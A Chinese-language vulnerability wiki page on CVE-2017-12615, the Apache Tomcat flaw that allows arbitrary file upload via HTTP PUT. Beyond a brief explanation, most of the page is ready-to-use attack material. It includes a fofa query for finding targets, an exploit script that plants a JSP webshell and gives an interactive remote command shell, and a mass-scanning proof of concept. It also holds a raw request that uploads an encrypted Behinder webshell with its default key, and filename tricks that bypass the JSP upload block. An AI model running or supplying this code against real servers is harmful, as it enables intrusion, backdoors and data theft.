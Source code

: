 

# CVE-2017-12615| TomCat  存在PUT请求任意 文件上传漏洞





## 0x00 漏洞说明



Java 是目前 Web 开发中最主流的编程语言，而 Tomcat 是当前最流行的 Java 中间件服务器之一，从初版发布到现在已经有二十多年历史，在世界范围内广泛使用。

由于在 tomcat 7.0.0-7.0.81 版本区间，将配置文件`conf/web.xml`中的`readonly`设置为了 `false` 导致服务器接收和处理PUT方法上传的任意文件。



## 0x01 影响版本



Apache Tomcat 7.0.0-7.0.81



## 0x02 漏洞成因



1. 由于配置不当（非默认配置），将配置文件`conf/web.xml`中的`readonly`设置为了 `false`，导致可以使用PUT方法上传任意文件，但限制了jsp后缀的上传



## 0x03 漏洞代码



暂无





## 0x04 详细分析



当 Tomcat 运行在 Windows 操作系统时，且启用了 HTTP PUT 请求方法（例如，将 readonly 初始化参数由默认值设置为 false），攻击者将有可能可通过精心构造的攻击请求数据包向服务器上传包含任意代码的 JSP 文件，JSP文件中的恶意代码将能被服务器执行。导致服务器上的数据泄露或获取服务器权限





## 0x05 漏洞指纹



fofa:

```
app="Apache-Tomcat"
```





## 0x06 POC & EXP



!FILENAME exp.py

```python
#CVE-2017-12615 EXP
__author__ = '纸机'
import requests
import optparse
import time


parse = optparse.OptionParser(usage = 'python3 %prog [-h] [-u URL] [-p PORT]')
parse.add_option('-u','--url',dest='URL',help='target url')
parse.add_option('-p','--port',dest='PORT',help='target port[default:8080]',default='8080')

options,args = parse.parse_args()
#验证参数是否完整
if not options.URL or not options.PORT:
        print('Usage:python3 CVE-2017-12615-POC.py [-u url] [-p port]\n')
        exit('CVE-2017-12615-POC.py:error:missing a mandatory option(-u,-p).Use -h for basic and -hh for advanced help')

url = options.URL+':'+options.PORT
filename = '/backdoor.jsp'
payload = filename+'?pwd=023&i='

headers = {"User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:93.0) Gecko/20100101 Firefox/93.0"}
#木马
data = '''<%
    if("023".equals(request.getParameter("pwd"))){
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
    }

%>'''
#上传木马文件
def upload(url):
  print('[*] 目标地址:'+url)
  try:
    respond = requests.put(url+filename+'/',headers=headers,data = data)
    #print(respond.status_code)
    if respond.status_code == 201 or respond.status_code == 204:
      #print('[*] 目标地址:'+url)
      print('[+] 木马上传成功')
  except Exception as e:
    print('[-] 上传失败')
    return 0

#命令执行
def attack(url,cmd):
  try:
    respond = requests.get(url+payload+cmd)
    if respond.status_code == 200:
      print(str(respond.text).replace("<pre>","").replace("</pre>","").strip())

  except Exception as e:
    print('[-] 命令执行错误')
if upload(url) == 0:
        exit()
time.sleep(0.5)
print('输入执行命令(quit退出):')
while(1):
  cmd = input('>>>')
  if(cmd == 'quit'):
    break
  attack(url,cmd)
```



!FILENAME poc.py

```python
#CVE-2017-12615 POC
__author__ = '纸机'
import requests
import optparse
import os

parse = optparse.OptionParser(usage = 'python3 %prog [-h] [-u URL] [-p PORT] [-f FILE]')
parse.add_option('-u','--url',dest='URL',help='target url')
parse.add_option('-p','--port',dest='PORT',help='target port[default:8080]',default='8080')
parse.add_option('-f',dest='FILE',help='target list')

options,args = parse.parse_args()
#print(options)
#验证参数是否完整
if (not options.URL or not options.PORT) and not options.FILE:
        print('Usage:python3 CVE-2017-12615-POC.py [-u url] [-p port] [-f FILE]\n')
        exit('CVE-2017-12615-POC.py:error:missing a mandatory option(-u,-p).Use -h for basic and -hh for advanced help')

filename = '/hello.jsp'

#测试数据
data = 'hello'

#提交PUT请求
#resp = requests.post(url1,headers=headers,data=data)

#验证文件是否上传成功
#response = requests.get(url2)
#上传文件
def upload(url):
  try:
    response = requests.put(url+filename+'/',data=data)
    return 1
  except Exception as e:
    print("[-] {0} 连接失败".format(url))
    return 0
def checking(url):
  try:
    #验证文件是否上传成功
    response = requests.get(url+filename)
    #print(url+filename)
    if response.status_code == 200 and 'hello' in response.text:
      print('[+] {0} 存在CVE-2017-12615 Tomcat 任意文件读写漏洞'.format(url))
    else:
      print('[-] {0} 不存在CVE-2017-12615 Tomcat 任意文件读写漏洞'.format(url))
  except Exception as e:
                #print(e)
    print("[-] {0} 连接失败".format(url))
if options.FILE and os.path.exists(options.FILE):
  with open(options.FILE) as f:
    urls = f.readlines()
    #print(urls)
    for url in urls:
      url = str(url).replace('\n', '').replace('\r', '').strip()
      if upload(url) == 1:
        checking(url)
elif options.FILE and not os.path.exists(options.FILE):
  print('[-] {0} 文件不存在'.format(options.FILE))
else:
  #上传链接
  url = options.URL+':'+options.PORT
  if upload(url) == 1:
    checking(url)
```









## 0x07 进阶利用思路



抓包改PUT方法，写文件，连接即可。

```
PUT /test1.jsp/ HTTP/1.1
Host: xxxx
User-Agent: Mozilla/5.0 (Windows NT 6.2; WOW64; rv:18.0) Gecko/20100101 Firefox/18.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 616

<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>

```



绕过方式:

**在默认情况下，限制了jsp文件的上传，可通过以下方式绕过**

```
#方法1
文件名后加 / 符号

#方法2
文件名后加 %20

#方法3
文件名后加 ::$DATA
```









## 0x08 扩展链接



[Tomcat任意文件写入（CVE-2017-12615）漏洞复现-含POC和EXP](https://www.cnblogs.com/confidant/p/15440233.html) 



## 0x9 联系方式



作者 : BitWiki支持团队
